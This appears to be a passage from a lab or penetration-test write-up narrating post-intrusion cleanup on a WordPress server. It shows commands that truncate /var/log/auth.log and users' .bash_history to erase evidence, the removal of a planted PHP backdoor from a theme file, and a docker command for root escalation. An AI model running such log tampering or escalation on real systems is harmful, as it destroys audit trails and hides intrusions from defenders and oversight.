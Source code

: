 The `/var/log/auth.log` file contains authentication logs, we talked about PAM mechanism earlier. I will take a look inside to know when __www-data__ started to execute Linux commands:

```bash
$ cat /var/log/auth.log | less -N
[Looking for "www-data"]
     88 Dec 26 20:39:01 webserver CRON[12209]: pam_unix(cron:session): session closed for user root
     89 Dec 26 20:41:26 webserver sudo:     odie : TTY=pts/0 ; PWD=/var/www/html ; USER=root ; COMMAND=/bin/chown -R www-data:www-data /var/www/html
     90 Dec 26 20:41:26 webserver sudo: pam_unix(sudo:session): session opened for user root by odie(uid=0)

$ cat /var/log/auth.log | head -n 88 > /var/log/auth.log.bak 
$ mv /var/log/auth.log.bak /var/log/auth.log
```

#### PHP backdoor

Remember the cute little line in the WordPress theme? Well, it's time to take it off. However, to avoid generating other apache logs, we will not go through the web interface, but through our favorite command line text editor.

```bash
backdoor # vim /var/www/html/wp-content/themes/rock-band/inc/customizer.php
[Backdoor removing]
```

#### Users history

I logged in with a lot of users during this operation:

* www-data
* odie
* root

`.bash_history` files got polluted. Let's start with __odie__:

```bash
backdoor # cat /home/odie/.bash_history | less -N
[...]
 	156 cd /var/www/html
    157 sudo mysqldump wp_db > database_name.sql
    158 sudo su
    159 docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
[...]

backdoor # cat /home/odie/.bash_history | head -n 158 > /home/odie/.bash_history.bak
backdoor # mv /home/odie/.bash_history.bak /home/odie/.bash_history
```

Same operation with __root__ user:

```bash
backdoor # cat /root/.bash_history | less -N     
	23 mysqldump wp_db > database_name.sql
    24 md5sum database_name.sql 
    25 exit
    26 exit
    27 dpkg -l | grep pam 

backdoor # cat /root/.bash_history | head -n 26 > /root/.bash_history.bak 
backdoor # mv /root/.bash_history.bak /root/.bash_history
```
